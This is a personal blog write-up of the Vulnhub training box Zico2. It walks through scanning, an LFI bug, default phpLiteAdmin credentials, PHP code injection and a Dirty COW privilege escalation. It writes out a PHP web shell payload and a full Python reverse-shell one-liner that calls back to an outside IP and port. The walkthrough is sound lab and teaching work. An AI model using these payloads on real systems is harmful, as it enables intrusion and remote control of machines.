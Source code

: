 ```yaml
---
layout: default
title : muzec - Zico2 Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/117451151-23ce6b00-af10-11eb-8417-a95f64436697.png)

So i was also hitting all the OSCP like Box on Vulnhubs Damn guys guess what?? am really getting my A** kick like a lot lol so let get started today the box is Zico2 which can be easily download here `https://www.vulnhub.com/entry/zico2-1,210/` .

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Thu May  6 15:40:41 2021 as: nmap -p- -sC -sV -oA nmap 172.16.139.170
Nmap scan report for 172.16.139.170
Host is up (0.00020s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Zico's Shop
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35483/udp6  status
|   100024  1          35727/udp   status
|   100024  1          49061/tcp   status
|_  100024  1          52842/tcp6  status
49061/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  6 15:40:59 2021 -- 1 IP address (1 host up) scanned in 18.38 seconds
```

4 open ports we already know we are hitting port 80 first let see what we have on the web page.

![image](https://user-images.githubusercontent.com/69868171/117451151-23ce6b00-af10-11eb-8417-a95f64436697.png)

Looking around we found a page with a LFI vulnerability.

![image](https://user-images.githubusercontent.com/69868171/117452058-5167e400-af11-11eb-8a8e-3ed65ebdcf75.png)

Not going to lie i spend hours trying to get it from LFI to RCE but no luck so i decided to burst some directory.

![image](https://user-images.githubusercontent.com/69868171/117455282-0a7bed80-af15-11eb-96be-ff3a6fdfb7c8.png)

And `http://172.16.139.170/dbadmin/` look interesting let check it out.

![image](https://user-images.githubusercontent.com/69868171/117455487-3a2af580-af15-11eb-9f6c-1f0edf3af6ab.png)

So i click on test_db.php.

![image](https://user-images.githubusercontent.com/69868171/117455586-575fc400-af15-11eb-84ab-2186e616a9c1.png)

And boom a phpLiteAdmin admin page a quick google search give us the default password to log in.

![image](https://user-images.githubusercontent.com/69868171/117455772-7fe7be00-af15-11eb-94cf-8ff9298e99d2.png)

Let try using it to log in.

![image](https://user-images.githubusercontent.com/69868171/117456109-da811a00-af15-11eb-8bb0-aabb49d45ea9.png)

Boom we have access to the phpLiteAdmin admin page and also found some sweet credentials.

![image](https://user-images.githubusercontent.com/69868171/117456239-f97fac00-af15-11eb-804f-0e1a3ee6ab34.png)

So i cracl it thinking it the way to get acess to SSH but nop just a rabbit hole.

![image](https://user-images.githubusercontent.com/69868171/117456407-246a0000-af16-11eb-9fb3-97210a0fa3b0.png)

So back to the phpLiteAdmin admin page since we know the version i try checking for any available exploit using searchsploit.

![image](https://user-images.githubusercontent.com/69868171/117456604-62ffba80-af16-11eb-922e-8bf03c85053f.png)

Hmm the Remote PHP Code Injection look interesting since it match our version.

![image](https://user-images.githubusercontent.com/69868171/117456802-9b9f9400-af16-11eb-9c44-1a4ccdc3ebc5.png)

Ok let follow it.

![image](https://user-images.githubusercontent.com/69868171/117456936-beca4380-af16-11eb-900d-543f72c14632.png)

Now let click on the new created database.

![image](https://user-images.githubusercontent.com/69868171/117457051-dc97a880-af16-11eb-82a8-9576631ea4e0.png)

![image](https://user-images.githubusercontent.com/69868171/117457161-f6d18680-af16-11eb-9036-9e110ee4d411.png)

Now let create a table for it.

![image](https://user-images.githubusercontent.com/69868171/117457800-9a229b80-af17-11eb-8b07-789cb1a474c9.png)

Default Value `<?php echo system($_GET["cmd"]); ?>` and click on create.

![image](https://user-images.githubusercontent.com/69868171/117457981-c9390d00-af17-11eb-8727-42dd8599617e.png)

Now going back to the LFI page to access it.

![image](https://user-images.githubusercontent.com/69868171/117458102-ea016280-af17-11eb-9dbd-3a6e90ec7a65.png)

AHhhh nice adding our parameter to the back boom we have command injection.

![image](https://user-images.githubusercontent.com/69868171/117458218-0ac9b800-af18-11eb-88b9-b5e61cdf09e7.png)

Now let get a reverse shell back to our terminal. [Reverse Shell Cheat Sheet][https://muzec0318.github.io/posts/ReverseShell.html] 

we be using the python reverse shell script `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Note:- do change the IP and port also start an Ncat listener.

![image](https://user-images.githubusercontent.com/69868171/117458539-66944100-af18-11eb-9c66-3202fd946b5f.png)

And we have shell.

![image](https://user-images.githubusercontent.com/69868171/117458735-9c392a00-af18-11eb-8d24-a295754a0e0c.png)

let Spawn a TTY shell. [Spawning A TTY Shell][https://muzec0318.github.io/posts/Ttyshells.html]

![image](https://user-images.githubusercontent.com/69868171/117458926-cdb1f580-af18-11eb-84df-9287abda3f4e.png)

### Privilege Escalation

First thing to check was the version.

![image](https://user-images.githubusercontent.com/69868171/117458997-e4584c80-af18-11eb-8456-aafbad304677.png)

Yea it pretty Old so i run linux-exploit-suggester to find some exploit.

![image](https://user-images.githubusercontent.com/69868171/117459988-01414f80-af1a-11eb-8b6b-2dc652bed2d8.png)

Cool dirtycow 2 so i download the exploit to my machine and transfer it to the target box.

![image](https://user-images.githubusercontent.com/69868171/117460269-5715f780-af1a-11eb-8086-9b54eb9bcca3.png)

Now let complie and run the exploit.

`gcc -pthread 40839.c -o dirty -lcrypt`

![image](https://user-images.githubusercontent.com/69868171/117460506-95131b80-af1a-11eb-869c-99967f674b17.png)

![image](https://user-images.githubusercontent.com/69868171/117460545-9fcdb080-af1a-11eb-87fd-db7451785256.png)

Now let run it.

![image](https://user-images.githubusercontent.com/69868171/117461691-d8ba5500-af1b-11eb-89a3-62f43aeeb734.png)

![image](https://user-images.githubusercontent.com/69868171/117461766-eec81580-af1b-11eb-85a2-60d2c20efbb6.png)

And we are root...

![image](https://user-images.githubusercontent.com/69868171/117461922-1a4b0000-af1c-11eb-9b8c-02a1291c006f.png)

*GOT STUCK A LOT BUT GUESS WHAT WE LEARN EVERYDAY*

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
